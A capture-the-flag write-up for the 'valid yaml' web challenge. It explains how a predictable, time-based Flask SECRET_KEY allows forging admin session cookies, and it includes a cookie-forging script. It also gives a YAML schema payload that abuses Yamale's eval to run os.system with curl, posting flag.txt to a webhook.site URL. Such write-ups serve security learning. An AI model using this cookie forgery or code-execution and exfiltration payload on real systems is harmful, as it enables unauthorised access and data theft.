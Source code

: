 # Web: valid yaml
solvers: [L3d](https://github.com/imL3d), [ProfessorZak](https://github.com//ProfessorZak) 
writeup-writer: [L3d](https://github.com/imL3d)  
**Description:**
> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale
> https://thecybercoopctf-c608d319bd29-valid-yaml-0.chals.io

**files (copy):** [src.zip](files/src.zip)
**screenshot:** [homepage](images/validyaml.png)

In this challenge we receive a site and it's source that allows us to validate our yaml input to a preestablished schema. We need to exploit this site and get user access to it.

## Solution❄️
The source code for this website in python via flask, using the Yamale library in order to validate the yaml input. The first things that pops to mind the the [PyYaml Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) that can allow us to get and RCE to the host machine? Could it be that the library used here have the same issue?  
Upon further examination, we find out that indeed Yamale runs on PyYaml and have the same issue, especially in the version that is used in the site - take a look at this [github issue + POC](https://github.com/23andMe/Yamale/issues/167).  
Great! we can just input this as the input... But wait. The exploit requires us to have influence on the schema and not just the input, and that is taken from the SQL database that we yet have control over:
```python
schema = Schemas.query.filter_by(id=schema_id).first_or_404() # If we can add our own schema... bingo!
schema = yamale.make_schema(content=schema.content) 
data = yamale.make_data(content=content)
```
So we need to get admin access. When digging further into the server code we see that we receive the formula for the [SECRET_KEY](https://flask.palletsprojects.com/en/2.3.x/config/#SECRET_KEY), which is pretty simple:
 ```python
SECRET_KEY = hashlib.md5(datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()).hexdigest()
```
This can allow us to bake our own `admin cookies`👨‍🍳, which in turn will allow us to upload our own schema, that can include the Python Deserialization payload!  
The code to generate the admin cookies (this needs to run on the same minute that the server deployed. If we don't know such time, we can just brute force for it):  
```python
""" Code to generate the admin cookies in the same way as the server """

from flask import Flask, session
from flask.sessions import SecureCookieSessionInterface
import datetime
import hashlib

SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()

app = Flask("example")
app.secret_key = SECRET_KEY
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    
@app.route("/")
def test():
    session["id"] = 1 # This is the ID of the user (taken from the server source code)
    session_cookie = session_serializer.dumps(dict(session))
    return SECRET_KEY

if __name__ == "__main__":
    app.run()
```
After logging in as the admin, it's just as simple as uploading a new schema via the convenient page created for us by the site. The schema uploaded:  
```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("curl -X POST --data-binary @flag.txt https://webhook.site/uniqueid") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```
And we get the flag: `flag{not_even_apache_can_stop_the_mighty_eval}`